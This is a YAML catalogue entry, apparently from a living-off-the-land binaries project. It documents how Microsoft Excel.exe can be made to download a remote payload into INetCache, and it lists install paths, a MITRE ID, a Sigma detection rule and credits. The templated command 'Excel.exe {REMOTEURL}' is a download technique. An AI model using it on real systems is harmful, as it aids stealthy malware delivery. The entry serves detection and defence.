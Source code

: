 ```yaml
---
Name: Excel.exe
Description: Microsoft Office binary
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: Excel.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_office.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: 'Reegun J (OCBC Bank)'
    Handle: '@reegun21'
---
```

